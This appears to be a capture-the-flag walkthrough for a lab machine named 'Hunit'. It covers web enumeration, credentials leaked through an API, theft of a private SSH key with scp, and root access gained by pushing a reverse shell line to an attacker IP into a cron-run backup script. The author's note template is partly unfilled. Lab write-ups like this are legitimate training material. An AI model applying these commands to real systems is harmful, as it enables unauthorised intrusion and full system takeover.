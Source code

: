 ```yaml
---
Alias: Hunit
Date: 6/1/2022
Platform: Linux
Difficulty: Intermediate
Tags:
Status: Finished
IP: 
---
```


# {{Hunit}}


# Resolution summary
- Text
- Text

## Improved skills
- Located a directory listed in webpage source code
- Directory showed SSH user credentials
- Found cronjob with backups.sh file running every 3 minutes
- Found git-server directory in SSH session 
- Git cloned the git server in tmp directory which made us able to review the backup.sh which was a placeholder file
- 
- skill 2

## Used tools
- nmap
- gobuster

---

# Information Gathering
Scanned all TCP ports:
```bash

```

Enumerated open TCP ports:
```bash
8080
43022
```

Enumerated top 200 UDP ports:
```bash

```

---

# Enumeration
## Port 8080 - HTTP 

#### -Navigated to http://192.168.143.125:8080 and found the following web page and clicked on a link of a user's hauiku on the web page and right clicked and clicked "view page source" and found it had directory "/api"

![](Pasted%20image%2020221016220003.png)
![](Pasted%20image%2020221017173943.png)

#### -Navigated to "/api" directory and found the following and clicked "raw data" and found  directory "/user":

![](Pasted%20image%2020221017174047.png)

![](Pasted%20image%2020221017174142.png)

#### -Navigated to directory "/user" and found user login "dademola" listed as an admin:

![](Pasted%20image%2020221017174304.png)

---

# Exploitation
## Located user credentials in directory shown in websites source code

#### -As port 43022 was found earlier running on SSH I typed the following to login to ssh session with the found credentials above "ssh –p 43022 dademola@192.168.143.125" with password "ExplainSlowQuest110" and received shell:

![](Pasted%20image%2020221017174428.png)

---

# Privilege Escalation
## Local Enumeration
#### -Ran "lse.sh" and found cron job "crontab.bak" running as root and was readable and found the below contents of "crontab.bak" which file "pull.sh" and "backups.sh" was running every 2 and 3 minutes:

![](Pasted%20image%2020221017175014.png)
![](Pasted%20image%2020221017175126.png)

#### -Searched more and found directory "git-server" and found it being owned by "git" user and was git backend files which are difficult to work with so I navigated to "/tmp" directory and typed "git clone file:///git-server/" to clone the server into the "/tmp" directory:

![](Pasted%20image%2020221017175529.png)

![](Pasted%20image%2020221017175722.png)

#### -Now we can review the contents of "backups.sh" file which shows as a place holder file:

![](Pasted%20image%2020221017180046.png)

#### -Set up git identity by typing git config --global user.name "dademola" AND git config --global user.email "dademola@hunit.(none)"

![](Pasted%20image%2020221017180308.png)

#### -Typed "echo "touch /tmp/gitscript-test" >> backups.sh" and "chmod +x backups.sh" to inject a test instruction into the "backups.sh" file and to make it executable:

![](Pasted%20image%2020221017180606.png)

#### -But after receiving an error when trying to push the file onto the git-server and further investigation the server is owned by user "git":

#### -Found a user named "git" and found we have read and execute permissions on their ssh "id_rsa" file which is a private SSH Key:

![](Pasted%20image%2020221017180818.png)

![](Pasted%20image%2020221017180904.png)

#### -Navigate to my kali machine and typed "scp -P 43022 dademola@192.168.93.125:/home/git/.ssh/id_rsa ." to upload the private ssh key to my kali machine and "chmod 600" to set the correct permissions:

![](Pasted%20image%2020221017185135.png)

#### -Logged in to remote ssh session by typing "ssh -i id_rsa -p 43022 git@192.168.93.125" and found it to be a git-shell:

![](Pasted%20image%2020221017185623.png)
#GitShell

#### -Since this is a git-shell we should be able to interact with the git repository

## Privilege Escalation vector
## Git-shell cron tab privilege escalation

#### -Typed "GIT_SSH_COMMAND='ssh -i id_rsa -p 43022' git clone git@192.168.93.125:/git-server" to clone git server onto my kali machine:

![](Pasted%20image%2020221017191609.png)

#### -Navigated into git-server and typed [git config --global user.name "kali"] and [git config --global user.email "kali@kali.(none)"] to setup git identity:

![](Pasted%20image%2020221017203812.png)

#### -Typed "echo "sh -i >& /dev/tcp/[kali IP]/8080 0>&1" >> backups.sh " to inject a reverse shell into the "backups.sh" file and typed "chmod +x to make it executable:

#### -Then typed "git add -A " and [git commit -m "pwn"] to commit the changes to the git-server:

![](Pasted%20image%2020221017204016.png)
![](Pasted%20image%2020221017204123.png)

#### -Prior to pushing the master branch to the git-server to place the reverse shell onto the git-server I started a netcat listener listening on port 8080 on my kali machine:

![](Pasted%20image%2020221017204330.png)

#### -Then typed "GIT_SSH_COMMAND='ssh -i /home/kali/Downloads/ProvingGroundsBoxes/Hunit/id_rsa -p 43022' git push origin master" to push everything to the master branch on git-server onto remote machine:

![](Pasted%20image%2020221017204550.png)

#### -As found previously the "/root/git-server/backups.sh" file runs every 3 minutes I waited about 3 minutes and received a root shell on my netcat listener:

![](Pasted%20image%2020221017204714.png)

![](Pasted%20image%2020221017204827.png)
#Git-serverCronTabScriptPrivilegeEscalation

---

# Trophy & Loot
user.txt

root.txt